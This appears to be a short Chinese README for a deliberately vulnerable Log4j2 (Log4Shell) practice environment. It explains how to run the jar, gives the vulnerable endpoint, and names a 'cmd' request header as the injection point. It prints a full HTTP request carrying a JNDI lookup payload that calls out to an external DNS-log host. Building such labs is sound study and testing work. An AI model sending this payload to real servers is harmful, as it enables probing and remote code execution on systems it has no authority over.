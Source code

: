 ### log4j2环境使用方法

jar：

java -jar运行

漏洞页面：

http://ip:8080/hello

注入点：

报头中的cmd字段中

```
GET /hello HTTP/1.1
Host: ip:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:94.0) Gecko/20100101 Firefox/94.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
cmd:${jndi:ldap://hag4gn.dnslog.c}
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```

源码：

运行该文件即可

![image-20211213230151388](https://haochen1204.oss-cn-chengdu.aliyuncs.com/web_picture/img/image-20211213230151388.png)

漏洞页面文件，可自行修改

![image-20211213230217170](https://haochen1204.oss-cn-chengdu.aliyuncs.com/web_picture/img/image-20211213230217170.png)